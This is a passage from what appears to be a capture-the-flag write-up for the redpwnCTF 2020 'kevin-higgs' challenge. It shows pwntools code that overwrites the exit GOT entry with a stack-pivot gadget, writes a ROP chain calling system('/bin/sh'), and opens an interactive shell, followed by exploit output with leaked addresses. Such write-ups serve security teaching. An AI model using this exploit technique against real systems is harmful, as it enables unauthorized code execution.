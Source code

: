 Above is the aforementioned `esp` offset discovered using GDB, followed by a search of `libc` for a gadget that will move the stack pointer down stack starting with 20 bytes.

A list of them with a > 20 (`0x14`) offset:

```
0x1c
0x20
0x24
0x2c
0x3c
0x4c
0x7c
0x9c
0x11c
0x12c
```

`0x1c` is 7 stack lines down and will work just fine.

Lastly, we just need to update the GOT, and write out our ROP chain to the stack:

```python
log.info('updating exit got')
write(add_esp,binary.got['exit'])
log.info('adding system to stack')
write(libc.symbols['system'],esp+(offset-20))
log.info('adding /bin/sh to stack')
write(next(libc.search(b'/bin/sh')),esp+(offset-20)+8)
```


### Get a shell, get the flag

```python
# one way exit
log.info('"exit" loop to shell')
flipbit(maxflips,31)

p.interactive()
```

After all that, just flip off `maxflips` to call `exit` to call the gadget, that then calls our ROP chain to a shell.

Output:

```bash
# time ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 2020.redpwnc.tf on port 31956: Done
[*] '/pwd/datajerk/redpwnctf2020/kevin-higgs/libc-database/db/libc6-i386_2.28-10_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] setvbuf: 0xf7e4b700
[*] baselibc: 0xf7de2000
[*] environ: 0xf7fbddc8
[*] stackleak: 0xffc09f1c
[*] maxflips: 0xffc09e44
[*] esp: 0xffc09d58
[*] add_esp: 0xf7dfcc70 0x1c
```